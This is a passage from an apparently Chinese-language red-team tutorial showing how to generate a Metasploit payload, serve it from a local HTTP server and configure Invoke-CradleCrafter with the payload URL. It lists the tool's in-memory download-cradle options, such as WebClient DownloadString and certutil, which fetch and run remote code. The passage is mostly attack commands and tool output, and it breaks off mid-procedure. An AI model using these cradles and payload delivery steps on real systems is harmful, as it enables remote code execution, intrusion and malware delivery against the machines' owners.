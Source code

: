 使用 msf 生成一个 payload，在本地起一个 http 服务器，放到 http 服务器的目录下

[![](assets/1701612219-1d4de19667cdd8500f110c26875aff1d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152109-984ad17c-ca85-1.png)

设置 url 为 http 服务器目录

```bash
set URL http://172.20.10.4:8000/key.txt
```

​ [![](assets/1701612219-a4b6e6e23c919c55f311ab6a36b1dfb2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210611152110-98d678ee-ca85-1.png)

使用以下几个命令进行初始化

```bash
Invoke-CradleCrafter> MEMORY

Choose one of the below Memory options:

[*] MEMORY\PSWEBSTRING          PS Net.WebClient + DownloadString method
[*] MEMORY\PSWEBDATA            PS Net.WebClient + DownloadData method
[*] MEMORY\PSWEBOPENREAD        PS Net.WebClient + OpenRead method
[*] MEMORY\NETWEBSTRING         .NET [Net.WebClient] + DownloadString method (PS3.0+)
[*] MEMORY\NETWEBDATA           .NET [Net.WebClient] + DownloadData method (PS3.0+)
[*] MEMORY\NETWEBOPENREAD       .NET [Net.WebClient] + OpenRead method (PS3.0+)
[*] MEMORY\PSWEBREQUEST         PS Invoke-WebRequest/IWR (PS3.0+)
[*] MEMORY\PSRESTMETHOD         PS Invoke-RestMethod/IRM (PS3.0+)
[*] MEMORY\NETWEBREQUEST        .NET [Net.HttpWebRequest] class
[*] MEMORY\PSSENDKEYS           PS SendKeys class + Notepad (for the lulz)
[*] MEMORY\PSCOMWORD            PS COM object + WinWord.exe
[*] MEMORY\PSCOMEXCEL           PS COM object + Excel.exe
[*] MEMORY\PSCOMIE              PS COM object + Iexplore.exe
[*] MEMORY\PSCOMMSXML           PS COM object + MsXml2.ServerXmlHttp
[*] MEMORY\PSINLINECSHARP       PS Add-Type + Inline CSharp
[*] MEMORY\PSCOMPILEDCSHARP     .NET [Reflection.Assembly]::Load Pre-Compiled CSharp
[*] MEMORY\CERTUTIL             Certutil.exe + -ping Argument

```